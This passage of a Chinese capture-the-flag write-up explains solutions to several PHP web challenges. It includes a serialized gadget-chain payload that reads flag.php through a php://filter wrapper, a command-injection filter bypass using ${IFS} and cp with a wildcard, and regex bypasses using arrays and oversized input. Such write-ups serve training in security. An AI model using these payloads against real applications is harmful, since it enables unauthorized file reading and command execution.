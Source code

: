 #### 3、生成你的邀请函吧~

更简单，调用API，生成海报，flag就在海报下面

#### 4、ez_serialize

考了几个php反序列化中常见的魔术方法的调用，不知道的请自行百度，网上太多了

具体解法是：通过反序列化调用B的wakeup，通过B的wakeup调用C的toString，通过C的toString 调用D的get，通过D的get调用A的invoke，最后执行文件包含

```php
$b=new B();
$b->q=new C();
$b->q->z=new D();
$b->q->z->p=new A();
$b->q->z->p->var_1='php://filter/convert.base64-encode/resource=flag.php';
echo serialize($b);
```



#### 5、babyRCE

过滤了很多能打印文本的命令，但是没有过滤cp和mv命令。因此可以直接用这个命令。

空格被过滤，可以使用${IFS}来绕过。因此，使用 `ls${IFS}/`查看根目录flag，然后使用`rce=cp${IFS}/fla?${IFS}ff.txt`来复制根目录下的flag，然后访问ff.txt即可

#### 6、1zzphp

第一步绕过，数组绕过正则，第二步，我实在没其他办法，就脏数据绕过，1002910个数据就已经可以绕过了
